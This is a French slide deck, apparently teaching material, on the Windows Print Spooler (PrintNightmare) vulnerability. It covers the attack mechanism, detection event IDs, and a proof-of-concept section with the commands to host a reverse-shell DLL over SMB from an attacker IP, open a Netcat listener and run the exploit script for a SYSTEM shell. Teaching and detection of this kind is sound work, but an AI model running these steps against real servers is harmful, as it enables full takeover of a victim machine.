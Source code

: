 ### Le mécanisme de l'attaque
- L'attaquant utilise RpcAddPrinterDriverEx() pour charger un pilote d'imprimante malveillant
- Le service Spooler exécute le code avec les privilèges SYSTEM
- L'attaquant obtient un accès total à la machine cible

![Diagramme expliquant le flux de l'attaque]()

## Slide 3 : Impact – Analyse de la severité à bord
*À faire*

## Slide 4 : Exploitation – Preuve de concept (POC)

### Conditions préalables
- Une machine cible Windows Server 2008 R2 avec Print Spooler activé
- Une machine attaquante Kali Linux avec Netcat

### Étapes de l'exploitation

1. Vérification du Print Spooler actif :
```powershell
Get-Service -Name Spooler
```

2. Création de la DLL malveillante (reverse shell en C++)
   - Un fichier revshell.dll est généré (code en annexe)

3. Mise en place d'un serveur SMB pour héberger la DLL
```bash
python3 smbserver.py share . -smb2support
```

4. Lancement d'un listener Netcat sur l'attaquant
```bash
nc -lvnp 4444
```

5. Exploitation de la vulnérabilité
```bash
python3 exploit.py j.doe:password@victim_ip \\attacker_ip\share\revshell.dll
```

![Capture d'un shell NT AUTHORITY\SYSTEM obtenu via Netcat]()

## Slide 5 : Détection – Identification des signes d'attaque

### Windows Event Logs à surveiller
- Microsoft-Windows-PrintService/Operational (Event ID 316)
  - Ajout ou mise à jour suspecte d'un pilote d'impression
- Microsoft-Windows-PrintService/Admin (Event ID 808, 811)
  - Tentative de chargement de plug-in ou échec de chargement d'une DLL malveillante
- Microsoft-Windows-SMBClient/Security (Event ID 31017)
  - Chargement d'un driver non signé via SMB
- Windows System (Event ID 7031)
  - Arrêt inattendu du service Print Spooler (spoolsv.exe)
